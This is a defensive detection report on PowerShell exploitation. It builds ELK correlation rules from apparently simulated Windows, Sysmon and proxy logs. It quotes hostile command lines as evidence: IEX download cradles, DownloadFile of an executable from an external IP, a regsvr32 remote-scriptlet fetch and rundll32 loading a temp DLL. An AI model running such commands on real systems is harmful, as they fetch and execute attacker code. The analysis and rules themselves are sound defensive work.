

# Report 05 — PowerShell Exploitation Detection

**Project:** SIEM Correlation Rules — ELK Stack
**Date:** 2026-07-07 | **Log Date:** 2026-06-15
**Version:** 1.0

---

## Table of Contents

1. [Attack Overview](#1-attack-overview)
2. [Related Log Sources](#2-related-log-sources)
3. [PowerShell Log Analysis](#3-powershell-log-analysis)
4. [Sysmon Analysis](#4-sysmon-analysis)
5. [Process Creation Analysis](#5-process-creation-analysis)
6. [Proxy and Network Evidence](#6-proxy-and-network-evidence)
7. [Detection Logic](#7-detection-logic)
8. [Correlation Rules](#8-correlation-rules)
9. [MITRE ATT&CK Mapping](#9-mitre-attck-mapping)
10. [Recommendations](#10-recommendations)

---

## 1. Attack Overview

PowerShell is Windows' built-in scripting and automation framework. Threat actors exploit PowerShell because it is trusted by the operating system, signs its own execution as a legitimate process, and can interact with the .NET framework, Windows APIs, and the network — all without writing files to disk.

### Attack Variants Observed

| Variant | Description | Log Evidence |
|---------|-------------|--------------|
| **Download Cradle (IEX)** | Downloads and immediately executes a remote PowerShell script in memory | `IEX (New-Object Net.WebClient).DownloadString(...)` in Event 4104 |
| **Encoded Command (-Enc)** | Base64-encodes the entire command to evade string-based detection | `powershell.exe -NoP -NonI -W Hidden -Enc JABzAD0A...` in Sysmon / 4104 |
| **DownloadFile** | Downloads a binary payload to a writable temp directory | `DownloadFile('http://185.220.101.47/update.exe', ...\Temp\update.exe)` |
| **LOLBAS via regsvr32** | Registers a remote scriptlet to bypass AppLocker/whitelisting | `regsvr32.exe /s /u /i:http://cdn-sync-update.net/x.sct scrobj.dll` |
| **LOLBAS via rundll32** | Loads a DLL from AppData\Temp as a payload delivery mechanism | `rundll32.exe C:\Users\*\AppData\Local\Temp\payload.dll,DllMain` |
| **Office Macro Spawn** | Office application (Word/Excel) spawns PowerShell — indicating macro-based initial access | Sysmon ParentImage: EXCEL.EXE / WINWORD.EXE → powershell.exe |

### Attack Kill Chain



---

## 2. Related Log Sources

| Log File | Event IDs / Patterns | Detection Value |
|----------|---------------------|-----------------|
| `network/powershell.log` | 4103 (cmdlet), 4104 (scriptblock), 4100 (stop) | Full script body captured — highest value |
| `network/sysmon.log` | Event ID 1 (ProcessCreate) | Parent/child process chain, command line, hash |
| `network/process_creation.log` | Event ID 4688 | Command line with LOLBAS tools |
| `powershell/proxy.log` | HTTP GET of .ps1 and .exe URLs | Download cradle network evidence |
| `powershell/firewall.log` | Outbound ESTABLISHED to threat IPs | C2 connectivity |
| `powershell/network_connections.log` | ESTABLISHED connections to 185.220.101.47, 103.68.22.9 | Persistent C2 channel |

---

## 3. PowerShell Log Analysis

### 3.1 Event ID 4104 — Script Block Logging (Critical)

Script Block Logging captures the full text of every PowerShell script before execution. This is the highest-value telemetry for detecting obfuscated and fileless attacks.

#### 3.1.1 IEX Download Cradles

Three distinct accounts on three different hosts executed the same IEX download cradle, indicating lateral movement of the initial access technique:

```powershell
# 2026-06-15 02:07:56 — WKS-SALES22 — User: rgupta
IEX (New-Object Net.WebClient).DownloadString('http://malicious-update-cdn.net/stage2.ps1')

# 2026-06-15 04:51:46 — SRV-DC01 — User: jsmith
IEX (New-Object Net.WebClient).DownloadString('http://malicious-update-cdn.net/stage2.ps1')

# 2026-06-15 04:59:36 — SRV-DC01 — User: nreddy
IEX (New-Object Net.WebClient).DownloadString('http://malicious-update-cdn.net/stage2.ps1')
```

**Significance:** The execution of this cradle on **SRV-DC01** (the domain controller) by two separate accounts (jsmith and nreddy) at 04:51 and 04:59 respectively indicates the attacker has achieved Domain Controller compromise — the highest-impact outcome in an Active Directory environment.

#### 3.1.2 Base64-Encoded Commands

Six events captured encoding via `-Enc`, hiding the actual payload from casual inspection:

```powershell
# 2026-06-15 02:22:26 — WKS-FIN07 — User: tverma
powershell.exe -NoP -NonI -W Hidden -Enc JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBs...

# 2026-06-15 03:29:53 — SRV-APP05 — User: nreddy
powershell.exe -NoP -NonI -W Hidden -Enc JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBs...

# 2026-06-15 04:27:36 — WKS-FIN07 — User: svc_sql
powershell.exe -NoP -NonI -W Hidden -Enc JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBs...

# 2026-06-15 04:48:27 — WKS-SALES22 — User: kpatel
powershell.exe -NoP -NonI -W Hidden -Enc JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBs...

# 2026-06-15 05:04:26 — SRV-FILE02 — User: dwilson
powershell.exe -NoP -NonI -W Hidden -Enc JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBs...
```

**Decoded base64:** `JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAA=` decodes to `$s=New-Object Net.WebCl` — confirming these are all WebClient download stagers.

**Switch Analysis:**

| Switch | Full Name | Purpose |
|--------|-----------|---------|
| `-NoP` | -NoProfile | Bypass profile scripts that may block malicious execution |
| `-NonI` | -NonInteractive | No user prompts — silent execution |
| `-W Hidden` | -WindowStyle Hidden | Hide the PowerShell window from the user |
| `-Enc` | -EncodedCommand | Accept base64-encoded command — evades string matching |

#### 3.1.3 Binary Download (DownloadFile)

```powershell
# 2026-06-15 02:55:39 — SRV-APP05 — User: svc_backup
(New-Object System.Net.WebClient).DownloadFile(
  'http://185.220.101.47/update.exe',
  'C:\Users\svc_backup\AppData\Local\Temp\update.exe'
)

# 2026-06-15 04:20:07 — WKS-SALES22 — User: svc_backup
(New-Object System.Net.WebClient).DownloadFile(
  'http://185.220.101.47/update.exe',
  'C:\Users\svc_backup\AppData\Local\Temp\update.exe'
)

# 2026-06-15 05:10:07 — WKS-FIN07 — User: kpatel
(New-Object System.Net.WebClient).DownloadFile(
  'http://185.220.101.47/update.exe',
  'C:\Users\kpatel\AppData\Local\Temp\update.exe'
)
```

**Key observations:**
- Source IP 185.220.101.47 is the same Tor exit node conducting SSH brute force — confirming the attacker controls both the brute force tool and the malware hosting server.
- File dropped to `AppData\Local\Temp\` — a common writeable location used by malware to avoid detection by directory-based EDR policies.
- The filename `update.exe` mimics a Windows update binary to deceive users.

#### 3.1.4 AD Reconnaissance via PowerShell

```powershell
# 2026-06-15 00:45:05 — SRV-DC01 — User: kpatel
Get-ADUser -Filter * -Properties LastLogonDate | Export-Csv C:\Reports\adusers.csv

# 2026-06-15 02:02:10 — SRV-DC01 — User: rgupta
Get-ADUser -Filter * -Properties LastLogonDate | Export-Csv C:\Reports\adusers.csv

# 2026-06-15 03:09:31 — WKS-HR03 — User: lchen
Get-ADUser -Filter * -Properties LastLogonDate | Export-Csv C:\Reports\adusers.csv
```

**Significance:** Exporting all AD user accounts with logon dates is a reconnaissance technique (T1087.002 — Domain Account Discovery). Multiple users running this command, including from a non-DC host (WKS-HR03), is anomalous.

### 3.2 Event ID 4103 — Cmdlet Execution

Notable suspicious cmdlet observed:

```
# 2026-06-15 01:57:45 — SRV-APP05 — User: rgupta
CommandInvocation(Start-Process): name="WindowStyle"; value="Hidden"

# 2026-06-15 02:26:39 — SRV-APP05 — User: kpatel
CommandInvocation(Start-Process): name="WindowStyle"; value="Hidden"
```

`Start-Process -WindowStyle Hidden` is used to silently launch child processes, commonly used to execute downloaded payloads without creating a visible window.

---

## 4. Sysmon Analysis

### 4.1 PowerShell Spawned from Office Applications

This is the definitive indicator of a macro-based initial access (T1566.001 — Spearphishing Attachment). Office applications should never spawn PowerShell under normal circumstances.

| Timestamp | Host | User | Parent | Child Command Line |
|-----------|------|------|--------|--------------------|
| 00:46:06 | SRV-APP05 | kpatel | EXCEL.EXE | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 00:51:20 | SRV-FILE02 | nreddy | EXCEL.EXE | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 00:54:10 | WKS-ENG14 | svc_sql | WINWORD.EXE | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 00:57:58 | WKS-FIN07 | svc_sql | cmd.exe | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 01:03:02 | SRV-DC01 | tverma | WINWORD.EXE | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 01:14:01 | WKS-SALES22 | svc_sql | WINWORD.EXE | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 01:19:55 | WKS-FIN07 | tverma | cmd.exe | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 01:29:50 | SRV-APP05 | jsmith | EXCEL.EXE | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 01:54:33 | SRV-APP05 | tverma | EXCEL.EXE | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |
| 01:55:48 | WKS-FIN07 | tverma | cmd.exe | `powershell.exe -NoP -sta -NonI -W Hidden -Enc JABzAD0A...` |

**Note:** The `-sta` (Single-Threaded Apartment) switch is used by many offensive PowerShell frameworks (Empire, Cobalt Strike) because COM-based operations require STA threading.

---

## 5. Process Creation Analysis

### 5.1 LOLBAS via regsvr32

**regsvr32** is a native Windows binary used to register COM server DLLs. When invoked with `/s /u /i:<URL> scrobj.dll`, it downloads and executes a remote COM scriptlet without writing to disk — bypassing application whitelisting.

```
2026-06-15 00:44:25 SRV-APP05   regsvr32.exe /s /u /i:http://cdn-sync-update.net/x.sct scrobj.dll  [amehta]
2026-06-15 01:40:43 SRV-APP05   regsvr32.exe /s /u /i:http://cdn-sync-update.net/x.sct scrobj.dll  [amehta]
2026-06-15 01:45:03 SRV-FILE02  regsvr32.exe /s /u /i:http://cdn-sync-update.net/x.sct scrobj.dll  [rgupta]
2026-06-15 02:15:05 WKS-SALES22 regsvr32.exe /s /u /i:http://cdn-sync-update.net/x.sct scrobj.dll  [jsmith]
```

**Key indicators:**
- Parent process: `cmd.exe` (spawned from macro or C2 shell)
- URL points to the same C2 domain used for DNS tunnelling (`cdn-sync-update.net`)
- The scriptlet (`x.sct`) is a COM-based payload delivery mechanism

### 5.2 LOLBAS via rundll32

```
2026-06-15 00:45:26 WKS-SALES22 rundll32.exe C:\Users\kpatel\AppData\Local\Temp\payload.dll,DllMain  [kpatel]
2026-06-15 00:53:26 SRV-FILE02  rundll32.exe C:\Users\amehta\AppData\Local\Temp\payload.dll,DllMain [amehta]
2026-06-15 01:57:51 WKS-ENG14   rundll32.exe C:\Users\rgupta\AppData\Local\Temp\payload.dll,DllMain  [rgupta]
```

**Key indicators:**
- DLL loaded from `AppData\Local\Temp\` — a non-standard location for legitimate DLLs
- Export function is `DllMain` — the default entry point, no custom exports
- Parent process: `explorer.exe` — consistent with double-click execution of a dropped file

---

## 6. Proxy and Network Evidence

### 6.1 Download Cradle Proxy Records

```
00:25:46  svc_backup  GET http://malicious-update-cdn.net/stage2.ps1  WindowsPowerShell/5.1  200  1771 bytes
00:41:18  jsmith      GET http://malicious-update-cdn.net/stage2.ps1  WindowsPowerShell/5.1  200  2737 bytes
01:20:09  rgupta      GET http://malicious-update-cdn.net/stage2.ps1  WindowsPowerShell/5.1  200  2116 bytes
```

**User-Agent `WindowsPowerShell/5.1`** is a reliable indicator — it identifies the request as originating from `Invoke-WebRequest` or `Net.WebClient` in PowerShell 5.1.

### 6.2 Persistent C2 Connections

From network_connections.log — confirmed ESTABLISHED TCP connections to threat actor infrastructure:

| Timestamp | Internal IP | Destination | Port | Bytes | Status |
|-----------|-------------|-------------|------|-------|--------|
| 01:02:43 | 10.21.7.182 | 185.220.101.47 | 443 | 659,582 | ESTABLISHED |
| 00:38:26 | 10.20.4.133 | 91.203.145.12 | 443 | 775,654 | ESTABLISHED |
| 00:30:58 | 10.20.11.250 | 103.68.22.9 | 443 | 558,213 | ESTABLISHED |
| 00:17:10 | 10.20.4.46 | 103.68.22.9 | 443 | 768,846 | ESTABLISHED |

Large byte counts over persistent ESTABLISHED connections indicate active C2 beacon traffic or data exfiltration.

---

## 7. Detection Logic

### 7.1 Rule PS-001 — Encoded PowerShell Command

**Trigger:** `process.command_line` contains `-Enc` or `-EncodedCommand` combined with `-W Hidden` or `-WindowStyle Hidden`.

**Why it fires:** The combination of encoding and window hiding has no legitimate administrative use case in a corporate environment. All 10 instances in the logs are malicious.

### 7.2 Rule PS-002 — PowerShell Download Cradle

**Trigger:** Event 4104 script block contains any of:
- `IEX` combined with `DownloadString` or `WebClient`
- `DownloadFile` with a URL containing an external IP or non-corporate domain
- `Invoke-Expression` combined with `Net.WebClient`

### 7.3 Rule PS-003 — Office Application Spawning PowerShell

**Trigger:** Sysmon Event 1 where `process.parent.name` is one of `EXCEL.EXE`, `WINWORD.EXE`, `POWERPNT.EXE`, `OUTLOOK.EXE` and `process.name` is `powershell.exe` or `cmd.exe`.

### 7.4 Rule PS-004 — regsvr32 Remote Scriptlet

**Trigger:** Event 4688 or Sysmon Event 1 where `process.name` is `regsvr32.exe` and `process.command_line` contains `http://` or `https://` and `scrobj.dll`.

### 7.5 Rule PS-005 — rundll32 from AppData\Temp

**Trigger:** `process.name` is `rundll32.exe` and `process.command_line` contains `\AppData\Local\Temp\` or `\AppData\Roaming\`.

---

## 8. Correlation Rules

### Rule PS-001: Encoded PowerShell

```yaml
name: "PS-001 Encoded PowerShell with Hidden Window"
index:
  - logs-windows.security-*
  - logs-sysmon-*
type: query
query: |
  process.name:powershell.exe AND
  process.command_line:(*-Enc* OR *-EncodedCommand*) AND
  process.command_line:(*Hidden* OR *-W\ H*)
severity: high
risk_score: 80
```

### Rule PS-002: Download Cradle

```yaml
name: "PS-002 PowerShell Download Cradle — IEX / DownloadString / DownloadFile"
index: logs-windows.powershell-*
type: query
query: |
  event.code:4104 AND (
    winlog.event_data.ScriptBlockText:(*IEX* AND *DownloadString*) OR
    winlog.event_data.ScriptBlockText:(*DownloadFile* AND *http*) OR
    winlog.event_data.ScriptBlockText:(*Net.WebClient* AND *http*)
  ) AND
  NOT winlog.event_data.ScriptBlockText:*downloads.corp.local*
severity: critical
risk_score: 95
```

### Rule PS-003: Office Spawning PowerShell

```yaml
name: "PS-003 Office Application Spawning PowerShell"
index: logs-sysmon-*
type: query
query: |
  event.code:1 AND
  process.parent.name:(EXCEL.EXE OR WINWORD.EXE OR POWERPNT.EXE OR OUTLOOK.EXE) AND
  process.name:(powershell.exe OR cmd.exe OR wscript.exe OR cscript.exe)
severity: critical
risk_score: 92
```

### Rule PS-004: regsvr32 Remote Scriptlet

```yaml
name: "PS-004 regsvr32 LOLBAS — Remote Scriptlet Execution"
index:
  - logs-windows.security-*
  - logs-sysmon-*
type: query
query: |
  process.name:regsvr32.exe AND
  process.command_line:(*http* OR *https*) AND
  process.command_line:*scrobj.dll*
severity: critical
risk_score: 95
```

### Rule PS-005: rundll32 from Temp

```yaml
name: "PS-005 rundll32 Loading DLL from User Temp Directory"
index:
  - logs-windows.security-*
  - logs-sysmon-*
type: query
query: |
  process.name:rundll32.exe AND
  process.command_line:(*AppData\\Local\\Temp* OR *AppData\\Roaming*)
severity: high
risk_score: 85
```

---

## 9. MITRE ATT&CK Mapping

| Technique ID | Technique | Tactic | Log Evidence |
|-------------|-----------|--------|--------------|
| T1059.001 | Command and Scripting Interpreter: PowerShell | Execution | Events 4104, 4103; Sysmon Event 1 |
| T1027 | Obfuscated Files or Information | Defense Evasion | Base64 `-Enc` flag across 6 events |
| T1105 | Ingress Tool Transfer | Command and Control | DownloadFile update.exe from 185.220.101.47 |
| T1204.002 | User Execution: Malicious File | Execution | Office macro spawning PowerShell (Sysmon) |
| T1218.010 | Signed Binary Proxy: regsvr32 | Defense Evasion | regsvr32 /s /u /i:http://.../x.sct scrobj.dll |
| T1218.011 | Signed Binary Proxy: rundll32 | Defense Evasion | rundll32 payload.dll,DllMain from AppData\Temp |
| T1071.001 | Application Layer Protocol: Web | Command and Control | HTTPS ESTABLISHED to 185.220.101.47, 103.68.22.9 |
| T1087.002 | Account Discovery: Domain Account | Discovery | Get-ADUser -Filter * exported to CSV |
| T1566.001 | Phishing: Spearphishing Attachment | Initial Access | Office macro execution chain (inferred from Sysmon) |

---

## 10. Recommendations

1. **Enable PowerShell Script Block Logging** (Event 4104) and **Module Logging** (Event 4103) via Group Policy on all Windows hosts. This was the most critical data source in this investigation. Without it, encoded commands would be invisible.

2. **Enable PowerShell Constrained Language Mode (CLM)** via AppLocker or WDAC policy. CLM prevents `Add-Type`, `New-Object`, and many download-cradle patterns from executing, directly blocking the attack chains observed.

3. **Deploy Microsoft Defender for Endpoint (MDE) or equivalent EDR** with AMSI (Antimalware Scan Interface) integration. AMSI intercepts PowerShell execution at the runtime level and can block malicious scripts before they execute, even when encoded.

4. **Block PowerShell from launching as a child of Office applications** using Attack Surface Reduction (ASR) rules. The specific ASR rule `D4F940AB-401B-4EFC-AADC-AD5F3C50688A` (Block Office applications from creating child processes) would have prevented all 10 macro-spawned PowerShell events.

5. **Restrict outbound HTTP/HTTPS from workstations** to the corporate proxy only. Direct connections to `185.220.101.47` and `malicious-update-cdn.net` bypassing the proxy should be blocked at the firewall. The proxy should also enforce a content inspection policy blocking downloads of `.ps1` files from external domains.

6. **Implement application whitelisting** via Windows Defender Application Control (WDAC) or AppLocker to block `regsvr32.exe` and `rundll32.exe` from loading DLLs from user-writable directories (`AppData`, `Temp`).

7. **Harden the `AppData\Local\Temp\` directory**: Configure Group Policy to mark `AppData\Local\Temp` as a non-executable location, preventing `update.exe` and `payload.dll` from running from this path.

8. **Conduct immediate incident response on SRV-DC01**: The domain controller executed IEX download cradles under two separate user accounts (jsmith and nreddy) at 04:51 and 04:59. This machine must be treated as fully compromised and rebuilt after forensic imaging.

9. **Revoke and reset all affected credentials**: All accounts observed in malicious 4104 events (rgupta, jsmith, nreddy, tverma, kpatel, svc_backup, svc_sql, dwilson) must have their passwords immediately reset and their active sessions terminated.

10. **Deploy PowerShell Just Enough Administration (JEA)**: Restrict what PowerShell commands service accounts (`svc_backup`, `svc_sql`) can execute. These accounts should never be able to run `Invoke-WebRequest`, `New-Object Net.WebClient`, or call `Start-Process`.
